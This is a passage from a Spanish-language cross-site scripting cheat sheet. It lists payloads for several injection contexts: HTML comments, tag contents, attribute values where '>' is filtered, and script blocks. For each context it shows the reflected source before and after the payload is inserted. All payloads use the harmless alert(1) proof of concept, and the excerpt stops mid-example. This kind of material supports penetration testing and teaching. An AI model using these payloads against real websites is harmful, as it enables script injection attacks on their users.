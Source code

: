 - Ejemplo de código fuente 

```html
<!-- REFLECTED_HERE --> 
```

- Después de ingresar la carga útil 

```html
<!-- --><script>alert(1)</script> -->
```

4 - Agregar cuando la entrada dentro o entre las etiquetas de apertura/cierre, la etiqueta puede ser ```<a>,<title>,<script>``` y cualquier otra etiqueta HTML 

```html
</tag><script>alert(1)</script>
"></tag><script>alert(1)</script>
```

- Ejemplo de código fuente 

```html
<a href="https://target.com/1?status=REFLECTED_HERE">1</a>
```

- Después de ingresar la carga útil 

```html
<a href="https://target.com/1?status="></a><script>alert(1)</script>">1</a>
```

5 - Se usa cuando se ingresa dentro del valor de un atributo de una etiqueta HTML pero > está filtrado 

    " onmouseover=alert(1)
    " autofocus onfocus=alert(1)
    
- Ejemplo de código fuente 

```html
<input id="keyword" type="text" name="q" value="REFLECTED_HERE">  
```

- Después de ingresar la carga útil 

```html
<input id="keyword" type="text" name="q" value="" onmouseover=alert(1)">
```

6 - Use </script> cuando ingrese dentro etiquetas ```<script>```

```html
</script><script>alert(1)</script>
```

- Ejemplo de código fuente 

```html
<script>
    var sitekey = 'REFLECTED_HERE';
</script>
```
